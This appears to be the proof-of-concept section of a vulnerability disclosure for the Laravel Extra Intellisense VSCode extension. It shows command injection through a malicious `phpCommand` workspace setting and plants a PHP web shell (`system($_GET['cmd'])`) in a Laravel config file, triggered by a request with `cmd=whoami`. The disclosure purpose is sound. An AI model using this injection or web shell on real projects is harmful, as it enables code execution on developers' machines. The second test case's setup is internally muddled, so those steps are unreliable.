 - **Security Test Case:**

    **Test Case 1: Local Command Injection**
    1. **Prerequisites:**
        - Install the "Laravel Extra Intellisense" VSCode extension.
        - Create a new empty folder to simulate a Laravel project workspace.
        - Inside this folder, create a `.vscode` folder.
        - Inside the `.vscode` folder, create a `settings.json` file.
    2. **Malicious Configuration:**
        - Open the newly created folder in VSCode.
        - Edit the `.vscode/settings.json` file and add the following configuration to set a malicious `phpCommand`:
        ```json
        {
            "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\"; touch /tmp/vscode-laravel-rce-test"
        }
        ```
        - Save the `settings.json` file.
    3. **Trigger Autocompletion:**
        - Open any file in the workspace (or create a new PHP file, e.g., `test.php`).
        - Trigger autocompletion in a PHP context where the extension attempts to fetch data (e.g., by typing `route('` or `config('`).
    4. **Verify Command Execution:**
        - After triggering autocompletion, check if the file `/tmp/vscode-laravel-rce-test` exists.
        - Open a terminal and check if the directory `/tmp/vscode-laravel-rce-test` exists using `ls /tmp/vscode-laravel-rce-test`.
        - If the file exists, it confirms command injection.

    **Test Case 2: Remote Code Execution (Simulated Docker)**
    1. **Setup a Simulated Vulnerable Development Environment**:
        - Create a simple Laravel project.
        - Configure a way to simulate a publicly accessible PHP interpreter. For testing locally, this could be simply running `php -S localhost:9000` in a separate terminal, or a more realistic Docker setup if needed.
        - Set up VSCode to use this Laravel project workspace.
        - Misconfigure the `LaravelExtraIntellisense.phpCommand` setting in VSCode to point to the publicly accessible PHP interpreter (e.g., `"php -r "{code}" -S localhost:9000"` or a Docker command as described in vulnerability description if simulating docker setup).
    2. **Inject Malicious PHP Code**:
        - Modify a Laravel configuration file (e.g., `config/app.php`) or a route file (e.g., `routes/web.php`). Add the following malicious PHP code:
            ```php
            <?php
            // ... existing content ...
            if (isset($_GET['exploit'])) {
                file_put_contents('/tmp/rce_test.txt', 'RCE Successful!');
                system($_GET['cmd']);
                exit();
            }
            ```
    3. **Trigger Extension Data Gathering:**
        - Open a PHP or Blade file in VSCode within the Laravel project.
        - Trigger autocompletion to force extension to run PHP code.
    4. **Verify Remote Code Execution:**
        - Check if the file `/tmp/rce_test.txt` exists on the system where the "publicly accessible" PHP interpreter is running. If it exists, it confirms code execution. For more advanced testing, use `system($_GET['cmd']);` and trigger the extension while sending GET requests to the exposed PHP server with commands to execute (e.g., `http://localhost:9000/?exploit=1&cmd=whoami`).

---